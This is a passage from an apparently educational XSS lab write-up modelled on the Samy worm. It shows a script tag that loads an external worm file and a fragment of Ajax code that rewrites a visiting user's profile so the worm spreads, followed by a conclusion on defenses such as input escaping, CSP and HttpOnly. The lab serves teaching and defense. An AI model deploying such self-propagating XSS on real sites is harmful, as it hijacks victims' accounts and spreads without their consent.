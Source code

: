 ```yaml <script type="text/javascript" src="http://www.example.com/xss_worm.js"></script>```
        // Create and send Ajax request to modify profile

    var Ajax=null;
    var Ajax = new XMLHttpRequest();
    Ajax.open("POST", sendurl, true);
    Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    Ajax.send(content);
    }
}
</script>  
```
When a user (e.g., Alice) visits Samy’s profile, the worm modifies their profile to include “Samy is my hero” and embeds a copy of itself. Any user visiting Alice’s profile will also be infected, propagating the worm.


# Conclusion

This lab demonstrates reflected, stored, and DOM-based XSS vectors on a test instance and highlights how malicious client-side scripts can act with a victim's privileges. The central takeaway: never trust user input — validate and escape on the server, implement defense-in-depth (HttpOnly, CSP, CSRF tokens), and regularly audit code.